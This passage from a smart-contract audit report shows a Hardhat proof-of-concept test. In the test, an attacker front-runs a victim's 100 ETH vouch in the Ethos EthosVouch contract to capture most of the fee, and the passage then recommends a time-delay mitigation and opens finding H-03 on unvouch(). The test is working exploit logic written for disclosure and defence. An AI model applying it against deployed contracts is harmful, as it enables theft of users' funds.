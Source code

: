 ```diff
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        const attacker = VOUCHER_1;
+
+        // ============== FRONT-RUNNING Tx by the attacker ===============
+        // Attacker vouches 0.0001 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('0.0001'),
+        });
+        // ===============================================================
+        
+        // Naive user's Tx: vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        // Verify stolen fee
+        const attackerVouch = await ethosVouch.vouches(0);
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('50'));
+      });
+      
       it('should fail if no profile', async () => {
         const { ethosVouch, VOUCHER_0, ethosProfile, OWNER } = await loadFixture(deployFixture);
 
         await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
         await ethosProfile.connect(VOUCHER_0).createProfile(1);
 

```

## Mitigation 
It's recommended to have a time delay after an author deposits funds for vouching. Only after this time delay should they be eligible to receive a portion of the 'previous voucher fee'.

[Back to Top](#summaryTable)
---

### <a id="h-03"></a>[H-03]
## **Missing check in `unvouch()` allows compromised or deleted address to steal balance**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L456-L458
<br>
